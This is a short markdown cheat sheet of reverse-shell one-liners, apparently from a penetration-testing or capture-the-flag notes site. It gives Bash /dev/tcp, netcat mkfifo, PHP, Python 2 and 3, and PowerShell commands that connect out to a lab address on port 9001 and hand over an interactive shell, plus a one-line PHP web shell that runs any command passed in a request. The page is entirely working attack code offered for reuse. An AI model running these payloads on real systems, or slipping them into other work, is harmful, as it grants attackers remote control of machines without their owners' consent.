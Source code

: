 ```yaml
---
title: Rev Shells
slug: rev-shells
description: Commonly used rev shells.
image: ../images/snippets/rev-shells.webp
---
```


## Bash

```bash
bash -i >& /dev/tcp/10.10.14.1/9001 0>&1
```

## nc mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f
```

## PHP

```php
php -r '$sock=fsockopen("10.10.14.1",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## PHP Payload In Image

```php
<?php system($_REQUEST['cmd']); ?>
```

## Python 2

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Python 3

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## PowerShell

```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.1',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

